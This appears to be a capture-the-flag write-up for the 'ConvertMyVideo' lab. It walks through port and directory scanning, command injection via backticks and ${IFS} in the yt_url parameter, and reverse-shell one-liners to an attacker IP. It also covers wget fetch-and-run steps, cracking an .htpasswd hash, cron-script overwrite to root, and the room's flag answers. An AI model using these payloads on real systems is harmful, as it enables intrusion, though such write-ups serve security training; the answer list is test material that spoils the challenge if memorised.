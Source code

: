 # ConvertMyVideo - Medium

```shell
nmap -T4 -p- -A -v 10.10.98.125

feroxbuster -u http://10.10.98.125 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#use Burp Suite and modify the POST request

#create and host reverse-shell script for downloading via yt_url command
echo "bash -i >& /dev/tcp/10.14.31.212/4444 0>&1" > shell.sh

python3 -m http.server

#setup listener before executing commands
nc -nvlp 4444
#we get shell after RCE

python -c 'import pty; pty.spawn("/bin/bash")'

ls -la

ls -la admin

cat admin/flag.txt

cat admin/.htpasswd

#crack password hash
hashcat -a 0 hash.txt /usr/share/wordlists/kaonashi.txt

#we can use linpeas for enumeration

#in reverse-shell
cd /tmp

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ps aux
#lists cron process running

cat /etc/crontab
#but no cronjobs

#inspecting processes running further
#we can use pspy tool
wget http://10.14.31.212:8000/pspy64

chmod +x pspy64

./pspy64 --help

./pspy64
#runs the tool
#we get a command running every minute
#as cronjob

#we can attempt a cron file overwrite
#get reverse-shell back first
cd tmp

echo "sh -i >& /dev/tcp/10.14.31.212/6666 0>&1" > clean.sh

#on attacker machine
nc -nvlp 6666
#we get shell as root here
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29
  * 48137 - unknown

* The webpage on port 80 contains an input to accept 'video ID', which will then convert our video.

* We can check how the website works, and in background we can enumerate the web directories as well.

* We can try using any YouTube video ID as input, but we always get the error message on clicking 'Convert!'.

* We can also take a look at the script used in /js/main.js

* Now, intercepting the request using Burp Suite, we can see that the 'yt_url' parameter includes URL-encoded YouTube link concatenated with the video ID (user input); this is a POST request.

* We can forward the POST request to Repeater and tweak it.

* When a random video ID is entered, like 'id' or 'ls', the error message mentions ```youtube-dl```

* However, if we enclose our input in backticks, such that the parameter yt_url=\`id\`, this shows the result of the command executed.

* Thus, by enclosing a command in our backticks and using that as the value of 'yt_url', we can execute commands remotely.

* Using the command 'ls' (enclosed in backticks) as an input for 'yt_url' and forwarding the POST request, we get the secret folder 'admin'.

* Now, commands with spaces do not work, so we can use the ```${IFS}``` separator instead of spaces to make the command work.

* Now, the command does not get executed if it contains symbols such as '+' or '-', so we can try to host a reverse-shell script, download it on victim machine, and get a reverse-shell on our listener.

* We will be executing the following commands using yt_url RCE (commands enclosed in backticks):

  ```shell
  which${IFS}wget

  wget${IFS}http://10.14.31.212:8000/shell.sh

  chmod${IFS}777${IFS}shell.sh

  bash${IFS}shell.sh
  ```

* This gives us a reverse-shell on our listener as ```www-data```; we can get user flag from the /admin folder.

* From the /admin folder, we also get .htpasswd file, which contains the username and hash for login.

* We can attempt to crack the hash using ```hashcat```, we get the password 'jessie'.

* Now, we can check for enumeration using linpeas.sh; it does not give us a lot of clues.

* Now, checking the processes running (captured by linpeas), we can see that it is running 'cron', but we do not have any cronjobs listed.

* To monitor the processes running as root without root permissions, we can use the ```pspy``` tool, by transferring it from attacker to victim machine.

* We can run the ```pspy``` tool with the help flag and check what we can do to inspect processes and cronjobs.

* Running the tool, we get a list of processes running, and we can see that the following command is executed as a cronjob every minute:

  ```/bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh```

* So, we can attempt to overwrite ```clean.sh``` and escalate our privileges; but we have to get our reverse shell back first.

* Using Ctrl+C, we stop the process, and run the Burp Suite RCE again to get our reverse-shell back on listener.

* Now, we can edit ```clean.sh``` and add our reverse-shell one-liner.

* On our new listener, we get reverse-shell within a minute as root, and we can read the root flag.

```markdown
1. What is the name of the secret folder? - admin

2. What is the user to access the secret folder? - itsmeadmin

3. What is the user flag? - flag{0d8486a0c0c42503bb60ac77f4046ed7}

4. What is the root flag? - flag{d9b368018e912b541a4eb68399c5e94a}
```
